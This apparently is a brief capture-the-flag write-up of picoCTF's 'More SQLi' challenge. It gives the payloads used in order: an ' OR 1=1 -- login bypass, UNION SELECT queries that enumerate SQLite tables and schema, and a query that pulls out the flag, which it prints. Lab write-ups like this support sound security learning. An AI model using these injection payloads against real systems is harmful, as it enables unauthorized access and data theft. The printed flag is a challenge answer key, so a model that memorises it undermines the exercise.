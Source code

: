 More SQLi
Author: Mubarak Mikail

Description
Can you find the flag on this website.
Try to find the flag here.



## Solution:
-`' OR 1=1 --` as password and username to login.
- discovered sqli in the search of the table and did `' UNION SELECT name, type, tbl_name FROM sqlite_master WHERE type='table' --` to get tables like more hints  and all that 

- `' UNION SELECT sql, 'x', 'y' FROM sqlite_master WHERE name='more_table' --` to get flag like strucute 
-`' UNION SELECT id, flag, 'x' FROM more_table --` to get the flag . 
- `picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8ee9477}`


What are these union selects ? 
-
 


